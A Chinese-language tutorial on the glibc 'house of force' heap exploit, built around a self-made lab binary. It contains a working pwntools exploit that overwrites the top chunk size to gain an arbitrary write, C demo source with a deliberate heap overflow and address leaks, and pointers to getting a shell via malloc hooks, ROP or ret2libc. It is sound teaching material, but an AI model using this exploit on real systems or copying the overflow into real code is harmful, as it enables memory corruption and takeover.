










house of force
本文介绍一种被称为house of force的 heap溢出利用技巧。
这是一种通过溢出改写top_chunk header信息进而达到任意写技巧。
基本信息
命令行打开house_of_force :

可见demo程序泄露了puts函数以及heap的地址，且提供三个选项：
-
调用malloc
调用malloc可以控制申请内存的大小以及输入的内容， 这个功能只能用四次。
-
打印target
target 是这个程序的全局变量， 且写死为hello，我们第一个目标就是改写它。
-
退出
用ldd查看改该二进制的依赖:

可见这个二进制的的动态链接库指定了一个自定义的地址，而libc也指向了特定的版本。
用pwntools下的checksec查看该二进制的基本运行时安全措施:

我们关注标红部分，No PIE (position independant executable) 意味着这个二进制没有ASLR保护。（这是为了减少复杂度故意设置，不过即使打开ASLR，有地址泄露，理论上也不难绕过）RUNPATH是指该二进制运行时的动态链接库的搜索地址（一般来说，该地址非默认时会导致运行的核心调用库被篡改，这是为了链接特定libc库的举措）
运行时行为debug
为方便查看heap的变化，下面采用 pwndbg 调试, 这是一个gdb 的插件，它集成很多方便的命令，以及提供好看的编码高亮。
用命令gdb -q ./house_of_force 启动debuger，用命令run(或者简写r), 然后选择1，需要大小的24字节的内存，写入内容aaaa，回车，最后ctrl+c开始debug:

这时，先用命令vmmap查看当前的memory map:

蓝色部分显示确实有heap分配了，且开始的位置为0x405000， 与开始时泄露的地址一致。
我们用命令vis_heap_chunks(或简写vis) 查看当前heap的样子：

如上图，我们确实看到一个大小为0x20的malloc chunk, 以及我们写入的“aaaa\n”的ASCII码（注意大小端）且指出了top_chunk的位置。
当然，我们也可以用命令top_chunk来查看top_chunk信息:

由于我们申请了24字节的内存，这块内存至少可以存储23个a(换行占一个字节)，很自然想到，如果我们写很多a，heap会是怎么样呢？

这时可见原来的0x0000000000020fe1变成了0x6161616161616161，而这恰恰是我们写入的a, 原来的0x0000000000020fe1表示top_chunk的大小，如今被改成了x6161616161616161。
也就是说我们有机会改写top_chunk的大小，打破heap的边界。
这就是这个demo的漏洞。下面我们利用这个漏洞来达到任意写。
任意写
由前面的memory map知道，heap是从0x405000 开始的，而top_chunk的大小可以控制，理论上说0x405000往后走的内存都可以被当做heap，都能被分配，都能被写（前提是它们能被写，否则会有segmen falt，毕竟前面checksec看到NX 是打开的。）但0x405000之前的呢？比如 target
target 变量位于0x404070，由前面的memory map 可知其为可写部分（一般来说，非静态全局变量都在这里）但0x404070在heap 0x405000之前，heap 地址只能往大处增长，如何覆盖到一个小的数值？
容易想到，整数溢出。由于heap的地址只能往大处增长，但不能无穷增长，到最大地址0xffffffffffffffff (32位的是0xffffffff)后，再继续增长就要从0x0开始了，进而有可能覆盖到target。
基本思想有了，下面描述一下具体做法：
- 先malloc一段小内存，写入内容溢出，使得系统误以为top_chunk大小为0xffffffffffffffff
- 然后再malloc一段大内存，使得top_chunk位置越过最大内存地址，回到开始，且在target附近
- 最后在再malloc一段内存，使得刚好覆盖target的位置，进而我们可以控制target及其附近的内容。

用pwntool编写exp house_of_force.py
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("house_of_force")
libc = elf.libc
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
def malloc(size, data):
io.send("1")
io.sendafter("malloc size: ", f"{size}")
io.sendafter("malloc data: ", data)
io.recvuntil("your option is: ")
def delta(x, y):
return (0xffffffffffffffff - x) + y
io = start()
io.recvuntil("puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.recvuntil("heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil("your option is: ")
io.timeout = 0.1
log.info(f"heap: 0x{heap:02x}")
log.info(f"target: 0x{elf.sym.target:02x}")
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))
distance = delta(heap+0x20, elf.sym.target-0x20)
malloc(distance, b"a")
log.info(f"delta between heap & main(): 0x{delta(heap, elf.sym.main):02x}")
io.interactive()
测试确实改写可target:

get shell
达到任意写get shell 比较容易了，这里提供几个思路:
- 通过任意写注入shellcode， malloc hook 触发
- 找rop gadget，同样malloc hook 触发。
- ret2libc 调用execve
这里提供一个调用system,函数的示例： house_of_force_shell.py
one more thing
在开发这个demo时， 全局变量target 最初我写作char* target 但编译后对应的位置储存的却是 char** 而真正的数据不可写。但改成char target[]后，target的对应地方才直接是数据，这和c语言大部分的教材说的char* a等价于char a[]不符。具体原因要研究编译器的实现，这个后续会进行。
另外，在默认情况下，函数printf会占用heap来做buffer， 函数setvbuf(stdout, NULL, _IONBF, 0); 可去除这个影响。
以上实现，可参考demo的源码 house_of_force.c
#include<stdio.h>
#include<stdlib.h>
#include<stdbool.h>
#include<unistd.h>
#include<malloc.h>
#define NAME "house of force\n"
#define LINE "-------------------------------\n"
// gcc -no-pie -Wl,-rpath,../libc/glibc_2.28_no-tcache/,-dynamic-linker,../libc/glibc_2.28_no-tcache/ld.so.2 -g house_of_force.c -o house_of_force
void print_banner(void) {
printf(NAME);
}
void print_leak(void) {
printf("puts() @ %p\n", &puts);
char* a = malloc(0x88);
printf("heap @ %p\n", a-0x10);
free(a);
}
void print_option(int malloc_count) {
printf("1) malloc %d/4\n", malloc_count);
puts("2) target");
puts("3) quit");
printf("your option is: ");
}
unsigned long read_num(void) {
char buf[31];
unsigned long num;
read(0, buf, 31);
num = strtoul(buf, 0, 10);
return num;
}
void do_malloc(int* malloc_count) {
if (*malloc_count <= 3){
printf("malloc size: ");
char* buf = malloc(read_num());
if (buf != NULL){
printf("malloc data: ");
read(0, buf, malloc_usable_size(buf)+8);
*malloc_count+=1;
printf(LINE);
}
}
else{
printf("Sorry, no more space for you to malloc.\n");
printf(LINE);
}
}
char target[] = "hello";
// char* target = "hello";
void do_target(char* target) {
printf("The target is: %s\n", target);
printf(LINE);
}
void do_exit(void) {
printf("exiting...\n");
printf(LINE);
exit(0);
}
int main(void) {
setvbuf(stdout, NULL, _IONBF, 0);
printf(LINE);
print_banner();
printf(LINE);
print_leak();
printf(LINE);
int malloc_count = 0;
print_option(malloc_count);
unsigned long option_num;
// char* target = "Have a nice day!";
option_num = read_num();
while (true) {
switch (option_num) {
case 1:
do_malloc(&malloc_count);
break;
case 2:
do_target(target);
break;
case 3:
do_exit();
break;
}
print_option(malloc_count);
option_num = read_num();
printf(LINE);
}
return 0;
}